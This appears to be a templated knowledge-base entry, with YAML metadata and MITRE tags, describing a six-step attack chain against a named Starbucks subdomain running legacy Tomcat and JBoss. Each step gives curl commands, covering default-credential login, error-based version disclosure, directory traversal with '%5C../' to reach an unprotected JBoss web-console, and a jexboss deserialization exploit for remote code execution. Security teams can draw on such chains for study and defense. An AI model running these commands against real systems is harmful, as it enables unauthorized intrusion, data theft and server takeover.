

---
tags:
  - directory-traversal
  - auth-bypass
  - rce
  - java-deserialization
  - jboss
  - tomcat
type: attack_chain
tools:
  - '[[tools/jexboss]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-path-manipulation]]'
  - '[[commands/curl-directory-traversal]]'
  - '[[commands/jexboss-exploit]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Reconnaissance-via-Subdomain-and-Path-Enumeration]]'
  - '[[procedures/Default-Credential-Attempt-on-Login-Form]]'
  - '[[procedures/Trigger-Tomcat-Error-Stack-Trace-for-Version-Disclosure]]'
  - '[[procedures/Exploit-Directory-Traversal-in-Tomcat-mod_proxy]]'
  - '[[procedures/Access-Unprotected-JBoss-Web-Console]]'
  - '[[procedures/Achieve-RCE-via-Java-Deserialization-with-Jexboss]]'
step_count: 6
techniques:
  - '[[Active Scanning]]'
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Client Execution]]'
description: >-
  Multi-stage attack exploiting directory traversal in Apache Tomcat and
  unprotected JBoss console to achieve remote code execution via Java
  deserialization on a legacy web server.
skill_level: intermediate
impact_level: high
id: b0ab8482-44f1-40e0-b528-e6f5e7d68cab
created_at: '2025-12-11T06:10:24.982Z'
updated_at: '2025-12-11T06:10:24.982Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0043]]'
  - '[[TA0001]]'
  - '[[TA0002]]'
mitre_techniques:
  - '[[T1595]]'
  - '[[T1190]]'
  - '[[T1203]]'
---
# Chained Directory Traversal and Authentication Bypass for JBoss RCE on Legacy Web Server

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/jexboss]]

### Target Environment

- Web platform with Apache Tomcat and JBoss
- Exposed subdomain running custom CMS
- Network access to the target subdomain

### Initial Access Requirements

- No prior credentials needed
- Public internet access to the subdomain
- Ability to send HTTP requests

## Detailed Attack Procedures

### Step 1: Reconnaissance - [[procedures/Reconnaissance-via-Subdomain-and-Path-Enumeration]]

**Procedure**: [[procedures/Reconnaissance-via-Subdomain-and-Path-Enumeration]]

**Objective**: Identify the subdomain and enumerate paths to discover the CMS and login form.

**Expected Output**: Redirect to /josso/signin login form.

**Success Indicators**:
- Discovery of CMS name in footer
- Successful redirect to login path

First, perform subdomain enumeration and path discovery. Append the CMS name to the path to trigger a redirect.

Use [[commands/curl-path-manipulation]] to test paths:

```bash
curl -i "http://subdomain.starbucks.com/<CMS-name>"
```

Verify the redirect to /josso/signin.

### Step 2: Credential Attempt - [[procedures/Default-Credential-Attempt-on-Login-Form]]

**Procedure**: [[procedures/Default-Credential-Attempt-on-Login-Form]]

**Objective**: Test default credentials on the discovered login form (noted as a red herring).

**Expected Output**: Success message followed by backend error; credentials disabled after attempt.

**Success Indicators**:
- Error page indicating backend issue
- Login form becomes inaccessible

Attempt login with default credentials like 'admin'/'admin'.

Use [[commands/curl-path-manipulation]] to submit the form (simulate via POST):

```bash
curl -X POST "http://subdomain.starbucks.com/josso/signin" -d "username=admin&password=admin"
```

Observe the error and note the red herring nature.

### Step 3: Version Disclosure - [[procedures/Trigger-Tomcat-Error-Stack-Trace-for-Version-Disclosure]]

**Procedure**: [[procedures/Trigger-Tomcat-Error-Stack-Trace-for-Version-Disclosure]]

**Objective**: Manipulate URLs to trigger an error revealing Tomcat version.

**Expected Output**: Stack trace showing Apache Tomcat 5.5.20.

**Success Indicators**:
- Exposure of server version in error response
- Confirmation of vulnerable Tomcat instance

Manipulate URL paths to cause an error.

Use [[commands/curl-path-manipulation]] to trigger the error:

```bash
curl -i "http://subdomain.starbucks.com/invalid/path/to/cause/error"
```

Parse the response for version details.

### Step 4: Directory Traversal - [[procedures/Exploit-Directory-Traversal-in-Tomcat-mod_proxy]]

**Procedure**: [[procedures/Exploit-Directory-Traversal-in-Tomcat-mod_proxy]]

**Objective**: Bypass local proxy using directory traversal to access internal services.

**Expected Output**: Access to internal JBoss console on localhost.

**Success Indicators**:
- Successful traversal bypassing proxy
- Response from internal endpoint

Append special characters to the path.

Use [[commands/curl-directory-traversal]]:

```bash
curl -i "http://subdomain.starbucks.com/josso/%5C../"
```

Confirm access to restricted paths.

### Step 5: Auth Bypass - [[procedures/Access-Unprotected-JBoss-Web-Console]]

**Procedure**: [[procedures/Access-Unprotected-JBoss-Web-Console]]

**Objective**: Reach the unprotected JBoss console without authentication.

**Expected Output**: Unauthenticated access to admin console.

**Success Indicators**:
- Ability to send admin requests
- No authentication prompt

Use the traversed path to access /web-console.

Use [[commands/curl-directory-traversal]]:

```bash
curl -i "http://subdomain.starbucks.com/josso/%5C../web-console"
```

Verify unauthenticated access.

### Step 6: RCE Execution - [[procedures/Achieve-RCE-via-Java-Deserialization-with-Jexboss]]

**Procedure**: [[procedures/Achieve-RCE-via-Java-Deserialization-with-Jexboss]]

**Objective**: Exploit deserialization for remote code execution.

**Expected Output**: Full server control, including page modification and data access.

**Success Indicators**:
- Successful RCE shell
- Access to SQL dumps and network exploration

Run jexboss with adapted path.

Use [[commands/jexboss-exploit]]:

```bash
python jexboss.py -u "http://subdomain.starbucks.com/josso/%5C../web-console"
```

Execute commands to achieve objectives.

## Attack Chain Summary

### Key Achievements

1. Bypassed proxy to access internal console
2. Gained unauthenticated admin access
3. Achieved full RCE and server takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]]
- [[Exploit Public-Facing Application]]
- [[Exploitation for Client Execution]]

### MITRE ATT&CK Tactics

- [[Reconnaissance]]
- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
